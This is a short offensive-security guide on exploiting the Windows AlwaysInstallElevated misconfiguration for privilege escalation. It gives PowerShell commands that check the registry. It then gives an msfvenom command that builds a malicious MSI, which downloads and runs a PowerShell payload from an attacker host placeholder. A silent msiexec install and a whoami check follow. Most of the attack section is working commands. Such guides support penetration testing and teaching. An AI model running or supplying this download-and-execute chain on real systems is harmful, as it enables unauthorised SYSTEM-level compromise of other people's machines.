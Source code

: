 # Abusing `AlwaysInstallElevated`

The `AlwaysInstallElevated` policy allows MSI (Microsoft Installer) packages to be installed with elevated privileges, specifically the SYSTEM account, even if the user has limited privileges. This policy is considered a misconfiguration and can be abused by attackers to escalate privileges.

#### Checking `AlwaysInstallElevated` Policy
To determine if the `AlwaysInstallElevated` policy is enabled on a Windows host, you need to check both the machine-level and user-level policy settings. If either or both are set to `1`, the system is vulnerable.

1. Check the local machine policy:
   ```powershell
   Get-ItemProperty HKLM:\Software\Policies\Microsoft\Windows\Installer | Select-Object AlwaysInstallElevated
   ```

2. Check the current user policy:
   ```powershell
   Get-ItemProperty HKCU:\Software\Policies\Microsoft\Windows\Installer | Select-Object AlwaysInstallElevated
   ```

If either of these commands returns a value of `1` for `AlwaysInstallElevated`, the policy is enabled, and the system is vulnerable to privilege escalation.

#### Exploiting `AlwaysInstallElevated`
Once you confirm that the `AlwaysInstallElevated` policy is enabled, you can escalate privileges by creating a malicious MSI package that runs arbitrary code with SYSTEM privileges. Here's how to exploit this:

1. Create a malicious MSI package: You can use various tools (e.g., `msfvenom` or `msi_exec`) to create an MSI package that executes a payload. For example, using `msfvenom`:
   ```bash
   msfvenom -p windows/exec CMD='powershell.exe -nop -c "IEX(New-Object Net.WebClient).DownloadString(\'http://<attack_ip>:<attack_port>/payload.ps1\')"' -f msi -o malicious.msi
   ```

   This command generates an MSI package (`malicious.msi`) that will download and execute a PowerShell payload hosted on your attack server.

2. Install the malicious MSI package: Use the following command to install the MSI package with elevated privileges:
   ```powershell
   msiexec /quiet /qn /i C:\Path\To\malicious.msi
   ```

   - `/quiet` and `/qn` suppress all user interface elements.
   - `/i` specifies the path to the MSI package to be installed.

Once the MSI is executed, the payload will run with SYSTEM privileges, allowing the attacker to escalate privileges on the host.

#### Verification
After successfully exploiting the vulnerability, you can verify privilege escalation by checking your current privilege level:
```powershell
whoami /priv
```
If you see SYSTEM privileges, the escalation was successful.
